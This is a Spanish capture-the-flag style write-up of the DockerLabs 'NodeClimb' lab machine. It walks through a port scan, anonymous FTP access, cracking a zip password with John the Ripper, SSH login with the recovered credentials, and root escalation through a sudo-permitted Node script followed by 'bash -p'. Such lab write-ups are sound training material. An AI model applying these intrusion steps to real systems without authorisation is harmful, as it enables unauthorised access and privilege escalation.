








### Informe Técnico: Análisis de la máquina vulnerable **NodeClimb**

**Dificultad**: Fácil
**Objetivo**: **Escalada de privilegios y acceso root a la máquina vulnerable.**

---

#### **1. Despliegue de la máquina vulnerable**

Para comenzar, descargué la máquina **NodeClimb** desde DockerLabs. Para ello, se usa el siguiente comando para descomprimir la máquina:

```bash
unzip nodeclimb.zip
```

Una vez descomprimida, se puede desplegar ejecutando el script de instalación con privilegios de superusuario:

```bash
sudo bash auto_deploy.sh nodeclimb.tar
```




---

#### **2. Confirmación de conexión a la máquina vulnerable**

Con el fin de confirmar que la máquina está corriendo y es accesible, realicé un **ping** a la dirección IP de la máquina vulnerable:

```bash
ping -c1 172.17.0.3
```



---

#### **3. Escaneo de puertos con Nmap**

A continuación, utilicé **Nmap** para realizar un escaneo de puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Este escaneo reveló que los puertos 21 (FTP) y 22 (SSH) estaban abiertos.



---

#### **4. Extracción de puertos relevantes**

Utilizando un script personalizado llamado `extractPorts`, extraje los puertos relevantes y luego realicé un escaneo más exhaustivo para obtener información detallada, como las versiones de los servicios:

```bash
nmap -sC -sV -p21,22 172.17.0.3 -oN target.txt
```

El escaneo mostró que el servicio **FTP** permitía acceso mediante el usuario **Anonymous**, lo que nos dio acceso sin necesidad de credenciales.



---

#### **5. Acceso al servicio FTP**

Con el usuario **Anonymous**, ingresé al servicio FTP sin necesidad de contraseña:

```bash
ftp 172.17.0.3
# Usuario: Anonymous
# Contraseña: Enter
```

Una vez dentro, listé los archivos con el comando `ls -la` y encontré un archivo **.zip** llamado `secretitopicaron.zip`. Lo descargué a mi máquina local usando el comando:

```bash
get secretitopicaron.zip
```



---

#### **6. Cracking de la contraseña del archivo ZIP**

Al intentar descomprimir el archivo `secretitopicaron.zip`, me pidió una contraseña. Usé la herramienta **John the Ripper** para crackear la contraseña.

**Paso 1: Extraer el hash del archivo ZIP**

```bash
zip2john secretitopicaron.zip > hash.txt
```

Esto convierte el archivo ZIP cifrado en un hash que John the Ripper puede procesar.

**Paso 2: Crackear el hash usando un diccionario (en este caso, `rockyou.txt`)**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Paso 3: Mostrar la contraseña**

```bash
john --show hash.txt
```

John encontró que la contraseña del archivo ZIP es **password1**.



---

#### **7. Descompresión y análisis del archivo `password.txt`**

Una vez que se obtuvo la contraseña, descomprimí el archivo ZIP con éxito. Dentro encontré un archivo llamado **password** con las siguientes credenciales:

```
usuario: mario
contraseña: laKontraseñAmasmalotaHdelbarrioH
```

Suponiendo que estas son las credenciales para el servicio **SSH**, intenté iniciar sesión en el servicio **SSH**.

**Nota**: Antes, intenté realizar un ataque de **fuerza bruta** con **Hydra** en el servicio SSH sin éxito.



---

#### **8. Acceso al servicio SSH**

Con las credenciales obtenidas (`mario:laKontraseñAmasmalotaHdelbarrioH`), accedí exitosamente al servicio SSH:

```bash
ssh mario@172.17.0.3
```

Una vez dentro, ejecuté el siguiente comando para verificar si tenía privilegios de **sudo** sin necesidad de contraseña:

```bash
sudo -l
```

Esto reveló que el usuario **mario** tiene acceso sin contraseña a ejecutar el siguiente comando:

```
(ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

---

#### **9. Escalada de privilegios con Node.js**

Con esta información, me dirigí al directorio donde se encontraba el script (`/home/mario`) y lo edité. El script tenía permisos suficientes para ser ejecutado con **sudo**, lo que me permitió ejecutar el siguiente comando para obtener privilegios de **root**:

```bash
sudo node /home/mario/script.js
```

Luego, ejecuté:

```bash
bash -p
```

Esto abrió una terminal con privilegios **root**, completando así la escalada de privilegios.




---

### **Resumen**

* **Acceso inicial**: FTP con usuario **Anonymous**.
* **Descarga y análisis**: El archivo ZIP `secretitopicaron.zip` contiene credenciales para SSH.
* **SSH y privilegios de sudo**: El usuario **mario** puede ejecutar un script con **sudo** sin contraseña.
* **Escalada de privilegios**: Ejecución del script de Node.js para obtener acceso root.

Este informe describe el proceso completo de explotación de la máquina **NodeClimb** y la escalada de privilegios para obtener acceso root.
